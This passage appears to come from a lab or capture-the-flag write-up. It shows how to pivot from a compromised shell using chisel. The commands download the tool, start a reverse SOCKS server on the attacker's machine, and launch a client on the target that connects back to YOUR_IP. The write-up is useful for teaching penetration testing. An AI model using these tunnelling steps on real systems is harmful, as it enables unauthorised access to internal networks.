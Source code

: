 We got two open ports, let's use chisel to set a proxy and check what's running there, first of all, make sure to add the following line to `/etc/proxychains4.conf`:

```
socks5  127.0.0.1 1080
```

You can get chisel binary with:

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz


gunzip chisel_1.8.1_linux_amd64.gz
mv chisel_1.8.1_linux_amd64.gz chisel
```

Now we need to use chisel on both our machine and the session we have:

```
# On our machine
./chisel server -p 8888 --socks5 --reverse

# On the shell
# Download chisel using curl as before and give it execution permissions with chmod +x
./chisel client YOUR_IP:8888 R:socks & 
```

If we check our server, we see the connection being made:

![Pasted image 20250724132323.png](../../IMAGES/Pasted%20image%2020250724132323.png)

Now, we'll set burp to use our `socks` tunnel:

(If you can't open burp, you need to set java to the one you had previously)

![Pasted image 20250724132328.png](../../IMAGES/Pasted%20image%2020250724132328.png)
